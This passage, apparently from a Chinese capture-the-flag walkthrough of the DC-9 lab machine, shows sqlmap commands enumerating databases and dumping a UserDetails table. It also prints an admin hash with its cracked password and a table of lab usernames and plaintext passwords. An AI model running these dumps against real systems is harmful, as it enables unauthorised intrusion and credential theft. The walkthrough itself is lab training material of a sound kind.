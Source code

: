 保存的文件名为：**DC-9.txt**

然后把文件上传到kali里面

获得近来数据库用户

```
sqlmap -r DC-9.txt --current-user --batch --smart --dump
```

未能得到结果

得到一个账户和密码

```
账户：admin
密码：856f5de590ef37314e7c3bdf6f8a66dc (transorbital1)
```

![image-20220322160545082](https://gitee.com/xxb667/img/raw/master/img/image-20220322160545082.png)



```
sqlmap -r DC-9.txt --data "search=1" --dbs
```

得到3个数据库

```
[*] information_schema
[*] Staff
[*] users
```

![image-20220322161111069](https://gitee.com/xxb667/img/raw/master/img/image-20220322161111069.png)

### 查看users数据库

```
sqlmap -r DC-9.txt --data "search=1" -D users --tables
```

得到的表格为：

```
UserDetails
```

![image-20220322161610008](https://gitee.com/xxb667/img/raw/master/img/image-20220322161610008.png)

```
sqlmap -r DC-9.txt --data "search=1" -D users -T UserDetails --batch --smart --dump
```

得到表格数据如下：

```
 id | username  | lastname   | reg_date            | password      | firstname |
+----+-----------+------------+---------------------+---------------+-----------+
| 1  | marym     | Moe        | 2019-12-29 16:58:26 | 3kfs86sfd     | Mary      |
| 2  | julied    | Dooley     | 2019-12-29 16:58:26 | 468sfdfsd2    | Julie     |
| 3  | fredf     | Flintstone | 2019-12-29 16:58:26 | 4sfd87sfd1    | Fred      |
| 4  | barneyr   | Rubble     | 2019-12-29 16:58:26 | RocksOff      | Barney    |
| 5  | tomc      | Cat        | 2019-12-29 16:58:26 | TC&TheBoyz    | Tom       |
| 6  | jerrym    | Mouse      | 2019-12-29 16:58:26 | B8m#48sd      | Jerry     |
| 7  | wilmaf    | Flintstone | 2019-12-29 16:58:26 | Pebbles       | Wilma     |
| 8  | bettyr    | Rubble     | 2019-12-29 16:58:26 | BamBam01      | Betty     |
| 9  | chandlerb | Bing       | 2019-12-29 16:58:26 | UrAG0D!       | Chandler  |
| 10 | joeyt     | Tribbiani  | 2019-12-29 16:58:26 | Passw0rd      | Joey      |
| 11 | rachelg   | Green      | 2019-12-29 16:58:26 | yN72#dsd      | Rachel    |
| 12 | rossg     | Geller     | 2019-12-29 16:58:26 | ILoveRachel   | Ross      |
| 13 | monicag   | Geller     | 2019-12-29 16:58:26 | 3248dsds7s    | Monica    |
```